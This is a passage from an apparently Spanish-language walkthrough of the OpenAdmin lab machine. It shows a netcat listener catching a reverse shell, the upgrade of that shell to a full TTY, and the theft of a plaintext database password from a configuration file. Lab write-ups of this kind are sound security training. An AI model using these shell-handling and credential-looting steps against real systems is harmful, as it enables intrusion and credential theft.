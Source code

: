 Comprobamos que finalmente logramos obtener acceso al sistema a través de la Reverse Shell. Al recibir la RevShell, realizaremos el tratamiento básico para lograr obtener una `TTY` totalmente interactiva.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.171] 46872
bash: cannot set terminal process group (1300): Inappropriate ioctl for device
bash: no job control in this shell
www-data@openadmin:/opt/ona/www$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@openadmin:/opt/ona/www$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@openadmin:/opt/ona/www$ export TERM=xterm
www-data@openadmin:/opt/ona/www$ export SHELL=bash
www-data@openadmin:/opt/ona/www$ stty rows 46 columns 230
```

## Pivoting as jimmy user

### Information Leakage

Revisando el directorio donde nos encontramos, verificamos un archivo llamado `database_settings.inc.php` de configuración de la base de datos. En dicho archivo, logramos obtener una contraseña en texto plano.

```bash
www-data@openadmin:/opt/ona/www/local/config$ ls -l
total 8
-rw-r--r-- 1 www-data www-data  426 Nov 21  2019 database_settings.inc.php
-rw-rw-r-- 1 www-data www-data 1201 Jan  3  2018 motd.txt.example
-rw-r--r-- 1 www-data www-data    0 Nov 21  2019 run_installer
www-data@openadmin:/opt/ona/www/local/config$ cat database_settings.inc.php 
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

